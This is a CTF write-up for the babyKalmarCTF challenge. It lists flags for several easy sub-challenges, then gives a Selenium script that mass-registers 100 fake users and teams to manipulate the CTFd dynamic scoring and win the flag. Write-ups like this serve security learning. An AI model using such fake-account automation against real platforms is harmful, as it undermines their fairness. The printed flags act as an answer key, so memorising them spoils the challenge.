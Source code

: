 # babyKalmarCTF

Solved by: @OS1R1S and @gr1d

Question: 
Ever played a CTF inside a CTF?

We were looking for a new scoring algorithm which would both reward top teams for solving super hard challenges, but also ensure that the easiest challenges wouldn't go to minimum straight away if more people played than we expected.

Thats when we came across this ingenious suggestion! [https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1](https://github.com/sigpwny/ctfd-dynamic-challenges-mod/issues/1)

We've implemented it this scoring idea(see here: [https://github.com/blatchley/ctfd-dynamic-challenges-mod](https://github.com/blatchley/ctfd-dynamic-challenges-mod) ) and spun up a small test ctf to test it out.

If you manage to win babykalmarCTF, we'll even give you a flag at /flag!

Spin up your own personal babykalmarCTF here: [https://lab1.kalmarc.tf/](https://lab1.kalmarc.tf/)


### Solution:
1. Within babyKalmarCTF there are several categories of challenges:
	- Baby's first RSA adventure (Crypto)
	- My First Flagchecker (Reverse)
	- THE OSINT CHALLENGE (osint)
	- Baffling, Ridiculous And Intriguing Letters, Laughter Ensues! (Misc)
	- Welcome Flag (welcome)
	- Simple  Math Challenge (Impossible)
	- Baby's Second RSA (Impossible)
	- A randcrack challenge (Impossible)
	- The Last Step (Impossible)
	
2. Welcome Flag's solution: 
	![[babykalmar1.png]]
	**Flag:** `babykalmar{welcome_to_babykalmar_CTF}`
	
3. My First Flagchecker's solution:
	 - ltrace will show the strcmp value 
	 ![[babykalmar2.png]]
	 - In disassembler, the string value will show in the .rodata section
	 ![[babykalmar3.png]]
	**Flag:** `babykalmar{string_compare_rev_ayoooooooo}`
	
4. THE OSINT CHALLENGE's solution:
	- Challenge Image given:
	  ![[babykalmar4.png]]
	- Using Google Images, which show is a Department of Computer Science, University in Aarhus, Denmark
	- The city which is located is `aarhus`
	- **Flag:** `babykalmar{aarhus}`
	
5. Baffling, Ridiculous And Intriguing Letters, Laughter Ensues's solution:
	- **Flag:** `BABYKALMAR{SUPERORIGINALMORSECODECHALLENGE}`
	
6. Baby's first RSA adventure's solution:
	- Flag: `babykalmar{wow_you_are_an_rsa_master!!!!!}`

After solving all the challenges, we have to trick the scoring system. Here is the script
```python
from selenium import webdriver
from selenium.webdriver.common.by import By
import time

# Set up Firefox WebDriver
options = webdriver.FirefoxOptions()
options.headless = False

driver = webdriver.Firefox(options=options)

register_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/register"
team_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/teams/new"
logout_url = "https://45d9cb6b475c2631a4b32ccd8e0bcf6a-59591.inst1.chal-kalmarc.tf/logout"

for i in range(100): 
    driver.get(register_url)
    
    username = f"FakeUser{i}"
    email = f"fakeuser{i}@example.com"
    password = "P@ssw0rd123"

    driver.find_element(By.ID, "name").send_keys(username)
    driver.find_element(By.ID, "email").send_keys(email)
    driver.find_element(By.ID, "password").send_keys(password)

    driver.find_element(By.ID, "_submit").click()

    time.sleep(2)

    driver.get(team_url)
    
    team_name = f"FakeTeam{i}"
    driver.find_element(By.ID, "name").send_keys(team_name)
    driver.find_element(By.ID, "password").send_keys("TeamP@ssw0rd")

    driver.find_element(By.ID, "_submit").click()

    print(f"Registered {username} & Created Team {team_name}")

    driver.get(logout_url)
    time.sleep(2) 

driver.quit()
```

Here is how it works:
![babykalmar5](babykalmar5.gif)
Then we can get the flag at `/flag` 
![babykalmar6](babykalmar6.gif)
**Flag:** `kalmar{w0w_y0u_b34t_k4lm4r_1n_4_c7f?!?}
